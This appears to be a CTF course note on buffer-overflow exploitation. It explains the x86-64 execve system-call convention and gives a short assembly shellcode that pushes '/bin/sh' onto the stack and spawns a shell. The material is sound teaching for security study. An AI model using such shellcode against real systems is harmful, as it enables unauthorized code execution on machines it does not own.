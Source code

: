 ```yaml
---
title: Simple Buffer Overflow - 0x02
tags: [CTF, PWN, NTUSTISC]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple Buffer Overflow - 0x02
<!-- more -->
###### tags: `CTF` `PWN`

## Why we'd like to create shellcode?
In pwn problem, most of the program don't have the secret function that we can take the shell. Thus, we can create a shellcode by ourselves and use `bof` to overlap the original address by shellcode address. Then we can take the shell.

## How to create a shellcode in BOF?
In lecture [0x01](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/HJm5x_Ocs), we can see sub-function that create a shell using command:
```bash!
execve("/bin/sh", (char *[]){0}, (char *[]){0});
```
According to [Linux System Call Table for x86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/), we can see that <font color='FF0000'>`execve`</font> is a system call and the parameter sequence is as the same as [normal calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions).
* Note that in `x86-64` →
    > The kernel interface uses `RDI`, `RSI`, `RDX`, `R10`, `R8` and `R9`. In C++, this is the first parameter. 


| %rax | System Call | %rdi | %rsi | %rdx | %r10 | %r8 | %r9 |
| :--------: | :--------: | :--------: |:-:|:-:|:-:|:-:|:-:|
| 59(0x3B)     | sys_execve     | const char \*filename|const char \*const argv[]|const char \*const envp[]||||

Therefore, `%rdi` store address of `/bin/sh` and `%rsi`, `%rdx` can temporarily set `0`

### Implement
```assembly!
mov    rbx, 0x68732f6e69622f
push   rbx
mov    rdi, rsp
xor    rsi, rsi
xor    rdx, rdx
mov    rax, 0x3b
syscall
```
* We can use [hex2text tool](https://string-functions.com/hex-string.aspx) to parse .`0x68732f6e69622f` and we obtain `?hs/nib/`
* First 3 line, we push `/bin/sh` to stack and `%rsp` is the top of the stack address, so we `%rdi` will obtain `/bin/sh` address from `%rsp`
* Then, let `%rsi` and `%rdx` be `0`
* To set `%rax` to right system call number, that is `0x3b`
* Finally, we did it!!!

![](https://imgur.com/EtW8yZu.png)

## Reference
[NTUSTISC - Pwn Basic 2 [2019.03.19]](https://youtu.be/PBgHHWtjtFA)